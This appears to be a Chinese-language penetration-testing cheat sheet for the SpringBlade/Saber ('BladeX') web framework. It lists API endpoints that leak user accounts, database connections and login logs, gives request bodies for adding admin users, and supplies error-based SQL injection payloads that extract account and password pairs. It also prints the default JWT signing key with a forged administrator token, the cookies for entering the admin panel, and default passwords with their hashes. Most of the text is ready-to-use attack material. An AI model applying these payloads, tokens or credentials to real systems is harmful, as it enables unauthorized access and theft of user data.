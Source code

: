 <https://blog.csdn.net/2301_80115097/article/details/141209675>
ico图标是🗡剑。
url里有/blade-特征。Saber框架。

官方demo：<https://saber3.bladex.cn/>
官方安全指南：<https://www.kancloud.cn/smallchill/blade-safety/3234105>
开发标准，未授权接口：
<https://www.kancloud.cn/smallchill/blade/1234959> 
<https://www.kancloud.cn/smallchill/blade/3198976>
在application.yml中配置

漏洞，以下主要是获取jwt后能操作。
```
/api/blade-user/user-list（用户账号密码）
/api/blade-auth/oauth/captcha
/api/blade-system/user/user-list
/api/blade-develop/datasource/list（泄露数据库连接）
/api/blade-log/api/list（泄露登录日志，包含登录用户名密码，可能翻倒明文）如果鉴权用注册账户来鉴权低权限访问。
/api/blade-log/logApi/list
/api/blade-test/



/api/blade-system/param/list 参数


/api/blade-user/submit（新增用户）post请求


{
"account": "admin1234",
"name": "GuestUser",
"password": "123456",
"tenantId": "000000",
"roleId": "1123598816738675201",
"deptId": "1123598816738675201",
"postId": "1123598816738675201"
}



{
"account": "admin123",
"name": "GuestUser",
"password": "123456by",
"tenantId": "000000",
"roleId": "1123598821738675201",
"deptId": "1123598821738675201",
"postId": "1123598821738675201",
   "roleId": "1123598816738675201",
        "deptId": "1123598813738675201",
        "postId": "0,1123598817738675201,",
        "mallId": 1,
        "companyId": "1628233399939338241",
        "tenantId": 501654
}



/api/blade-resource/oss/list（oss配置信息）

/api/blade-user/list
GET /api/blade-user/list?size=100\&current=2
/api/blade-user/list?updatexml(1,concat(0x7e,version(),0x7e),1)=1
/api/blade-user/list?updatexml(1,concat(0x7e,database(),0x7e),1)=1

/api/blade-log/error/list?updatexml(1,concat(0x7e,version(),0x7e),1)=1

/api/blade-system/menu/menu-list?updatexml(1,concat(x7e,md5(20240729),x7e),1)=1
/api/blade-system/dict-biz/list?updatexml(1,concat(0x7e,md5(1),0x7e),1)=1

post
/api/blade-desk/notice/list?updatexml(1,concat(0x7e,user(),0x7e),1)=1
```

^
## **jwt的密钥未改**
默认
```
bladexisapowerfulmicroservicearchitectureupgradedandoptimizedfromacommercialproject
```
因此存在以下通用jwt
```
Blade-Auth: bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0ZW5hbnRfaWQiOiIwMDAwMDAiLCJ1c2VyX25hbWUiOiJhZG1pbiIsInJlYWxfbmFtZSI6IueuoeeQhuWRmCIsImF1dGhvcml0aWVzIjpbImFkbWluaXN0cmF0b3IiXSwiY2xpZW50X2lkIjoic2FiZXIiLCJyb2xlX25hbWUiOiJhZG1pbmlzdHJhdG9yIiwibGljZW5zZSI6InBvd2VyZWQgYnkgYmxhZGV4IiwicG9zdF9pZCI6IjExMjM1OTg4MTc3Mzg2NzUyMDEiLCJ1c2VyX2lkIjoiMTEyMzU5ODgyMTczODY3NTIwMSIsInJvbGVfaWQiOiIxMTIzNTk4ODE2NzM4Njc1MjAxIiwic2NvcGUiOlsiYWxsIl0sIm5pY2tfbmFtZSI6IueuoeeQhuWRmCIsIm9hdXRoX2lkIjoiIiwiZGV0YWlsIjp7InR5cGUiOiJ3ZWIifSwiYWNjb3VudCI6ImFkbWluIn0.RtS67Tmbo7yFKHyMz_bMQW7dfgNjxZW47KtnFcwItxQ


修改两个cookie直接进后台
saber-access-token
saber-refresh-token
/#/tool/datasource
```


## **sql注入注出密码**
<https://mp.weixin.qq.com/s?__biz=Mzg5NjU3NzE3OQ==&mid=2247490068&idx=1&sn=63a2427fb762c5e96aef490cf6b47637&chksm=c1fe240aa318297d960cff7945596779134ddc905d952623cba9ef024297fb15a693c279cb9f&mpshare=1&scene=23&srcid=0906trPOxcLTicx2WgtRTsOg&sharer_shareinfo=6cf2fed374261ab2e9a841a942b83ced&sharer_shareinfo_first=6cf2fed374261ab2e9a841a942b83ced#rd>

^
1-updatexml(1,concat(0x7e,database(),0x7e),1)=1

或者

1-extractvalue(1,concat(0x7e,database(),0x7e))=1

得到数据库名

![null](https://wiki.shikangsi.com/media/images/2024/08/23/d62ddc12-fef6-4cdf-aae0-4889a1959325-A9yJpugc.png)

注入出密码
```
/**/1/**/-extractvalue(1,concat(0x7e,database(),0x7e))=1

/**/1/**/-updatexml(1,concat(0x7e,(select+group_concat(account,0x7e,password)+from+数据库名.blade_user),1),1)=1

1-extractvalue(1,concat(0x7e,(select+group_concat(account,0x7e,password)+from+数据库名.blade_user),1))=1

图里用的 /**/代替空格，用+号也可以

注入blade_log_api表的params参数、
或者blade_log_error表的，可能有明文密码。
```


^
## **默认密码**
```
固定的，应该可以碰撞

默认有账户admin
默认密码123456
10470c3b4b1fed12c3baac014be15fac67c6e815

密码123456by
709d88462910f1e2a71d4377000fb5e87bc463f7

```